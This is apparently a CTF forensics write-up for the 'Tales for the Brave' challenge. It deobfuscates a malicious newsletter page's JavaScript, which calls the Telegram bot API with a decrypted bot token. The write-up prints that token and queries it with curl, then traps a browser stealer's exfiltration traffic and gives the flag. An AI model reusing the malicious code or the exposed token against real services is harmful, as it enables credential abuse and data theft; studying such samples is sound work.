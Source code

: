 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Tales for the Brave Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: Tales for the Brave
tags: "forensics, twh, javascript, obfuscation, api, win32pe, wireshark"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>


## Tales for the Brave
> Solved by thewhiteh4t


- This was an interesting one because we were given a website as the starting point
- Looking at the source code, we can see `index.js` is loaded, contents :


![](https://i.imgur.com/JCKcHuS.png)

- So the JavaScript is obfuscated and uses `CryptoJS`, we can use an online deobfuscator : 


![](https://i.imgur.com/XjIy88q.png)

- Another better alternative is to use debugger in the browser, using debugger is simple, just open tools, click on debugger, hit pause and submit the form and the decoded JavaScript is revealed : 


![](https://i.imgur.com/bLswUQG.png)

- I copied this code into a `.js` file and cloned the website as well :

```
> cat index.html
<!DOCTYPE html>
<html lang="en"><head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Newsletter Signup</title>
  <link rel="stylesheet" href="index.css">
  <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/crypto-js.js"></script>
</head>
<body>
  <div class="newsletter">
    <div class="image-section">
      <img src="img/storytellingEldoriaMyths.png" alt="Rings">
    </div>
    <div class="form-section">
      <h1>Tales of Eldoria: Stories of Magic and Bravery for the Young and Curious</h1>
      <p>In the mystical lands of Eldoria, where dragons soar and ancient magic pulses through the air, storytelling is more than just a pastime—it's a tradition that bridges generations. Imagine a magical evening where children gather around glowing crystal orbs, listening to the mesmerizing myths and legends of Eldoria. These tales teach courage, friendship, and the magic of harmony.</p>
      <form id="newsletterForm">
        <input type="email" id="email" placeholder="Email">
                <input type="text" id="descriptionField" placeholder="Description">
        <div class="checkbox-group">
          <p>The newsletter offers:</p>
          <label><input class="cb" id="c1" type="checkbox"> Legends of Dragons</label>
          <label><input class="cb" id="c2" type="checkbox"> Ancient Magic</label>
          <label><input class="cb" id="c3" type="checkbox"> Adventures of Heroes</label>
          <label><input class="cb" id="c4" type="checkbox"> Eldoria Myths</label>
        </div>
        <div class="buttons">
            <button type="submit" data-node-outlined="false" class="button primary">SUBMIT</button>
        </div>
      </form>
    </div>
  </div>
  <script src="./decrypted.js"></script>


</body></html>
```

- After some inspection I noticed an interesting variable `_$_5975` and how it was used :

```
function f(oferkfer, icd) { const channel_id = -1002496072246; var enc_token = _$_5975\\[0]; if (oferkfer === G(_$_5975[1]) && CryptoJS[_$_5975[7]\](sequence[_$_5975[6]](_$_5975[5]))\[_$_5975[4]\](CryptoJS[_$_5975[3]\][_$_5975[2]]) === _$_5975\\[8]) { var decrypted = CryptoJS[_$_5975[12]\][_$_5975[11]\](enc_token, CryptoJS\[_$_5975[3]\][_$_5975[9]]\[_$_5975[10]](oferkfer), { drop: 192 })\[_$_5975[4]\](CryptoJS[_$_5975[3]\][_$_5975[9]]); var HOST = _$_5975\\[13] + String[_$_5975[14]\](0x2f) + String\[_$_5975[14]\](0x62) + String\[_$_5975[14]\](0x6f) + String\[_$_5975[14]\](0x74) + decrypted; var xhr = new XMLHttpRequest(); xhr\[_$_5975[15]] = function () { if (xhr[_$_5975[16]] == XMLHttpRequest[_$_5975[17]]) { const resp = JSON[_$_5975[10]\](xhr[_$_5975[18]]); try { const link = resp\[_$_5975[20]\][_$_5975[19]]; window\[_$_5975[23]\][_$_5975[22]\](link) } catch (error) { alert(_$_5975\[24]) } } }; xhr[_$_5975[29]\](_$_5975[25], HOST + String[_$_5975[14]](0x2f) + _$_5975\[26] + icd + _$_5975[27] + channel_id + _$_5975[28]); xhr[_$_5975[30]\](null) } else { alert(_$_5975[24]) } }
```

- It's an array and multiple items from the array were being used, so I decided to print the array, by adding a small loop : 

```
for (var i = 0; i < 31; i++) {
    console.log(i, _$_5975[i])
}
```

![](https://i.imgur.com/saOoRYc.png)

- As we can see, some encoded strings, parts of a URL, telegram and most importantly `RC4Drop` which is a type of cipher available in `CryptoJS`
- After this I substituted the values according to array index and ended up with the following :

```
if (oferkfer === G('s3cur3k3y') && CryptoJS.SHA256(sequence.join('')).toString(CryptoJS.enc.Base64) === '18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=') {
        var decrypted = CryptoJS.RC4Drop.decrypt(enc_token, CryptoJS.enc.Utf8.parse(oferkfer), {
            drop: 192
        }).toString(CryptoJS.enc.Utf8);
        var HOST = 'https://api.telegram.org' + String.fromCharCode(0x2f) + String.fromCharCode(0x62) + String.fromCharCode(0x6f) + String.fromCharCode(0x74) + decrypted;

        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {
            if (xhr.readyState == XMLHttpRequest.DONE) {
                const resp = JSON.parse(xhr.responseText);
                try {
                    const link = resp.result.text;
                    window.location.replace(link)
                } catch (error) {
                    alert('Form submitted!')
                }
            }
        };
        console.log('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5')
        xhr.open('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5');
        //xhr.send(null)
    } else {
        alert('Form submitted!')
    }
```

- Decryption block is executed if the condition is satisfied : 

```
oferker -> email before @tld
G('s3cur3k3y') -> 0p3r4t10n_4PT_Un10n
```

- So the email to satisfy the condition should be `0p3r4t10n_4PT_Un10n@abc.com` but since the script is running locally we can simply bypass the conditions
- In the end the code block sends a GET request, so I inspected the URL : 

```
console.log('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5')

GET https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/forwardMessage?chat_id=NaN&from_chat_id=-1002496072246&message_id=5 decrypted.js:128:17
```

- So the telegram API is being called, and we get the following things : 

```
Bot ID : bot7767830636
Bot token : AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc
chat_id : Null
from_chat_id : -1002496072246
message_id : 5
```

- `forwardMessage` does exactly what the name suggests, it will forward a message from one chat to another, but some requirements need to be fulfilled for this to happen : 

```
Bot should be present on both chats
```

- But in the URL we can see that `chat_id` is missing, so we will make our own by creating a `group` in telegram, and then we can add the bot to our group
- But we don’t know the name of the bot, to solve this there is another endpoint we can call : 

```
> curl -s 'https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/getMe' | json_pp

{
   "ok" : true,
   "result" : {
      "can_connect_to_business" : false,
      "can_join_groups" : true,
      "can_read_all_group_messages" : false,
      "first_name" : "OperationEldoriaBot",
      "has_main_web_app" : false,
      "id" : 7767830636,
      "is_bot" : true,
      "supports_inline_queries" : false,
      "username" : "OperationEldoriaBot"
   }
}
```

- After adding the bot to our group we can iterate from message IDs `1 - 10` to get all the messages : 


![](https://i.imgur.com/1b1xrhh.png)



- We got a zip file which contains a tool that targets Brave browser, inside the zip is a windows PE file
- Time for dynamic analysis, after using `Process Explorer, Process Monitor` etc. I finally checked `WireShark` for network activity because a browser stealer is expected to send the information
- And a single DNS query popped up : `z0lsc2S65u.htb` which obviously does not exist
- So I did the following :

```
Added the domain in windows Hosts file
Started a PHP server on my other box on port 31337 as seen in wireshark
Launched Brave.exe again
```

![](https://i.imgur.com/Iaaj6RH.png)



- And we get a POST request to our server


![](https://i.imgur.com/LTALsWD.png)



- JSON data was being sent but more interestingly there was a `Authorization` header with JWT :


![](https://i.imgur.com/vTH0E4n.png)

- Double base64 encoded flag : 

```
HTB{APT_c0nsp1r4c13s_b3h1nd_b3n1gn_l00k1ng_s1t3s}
```
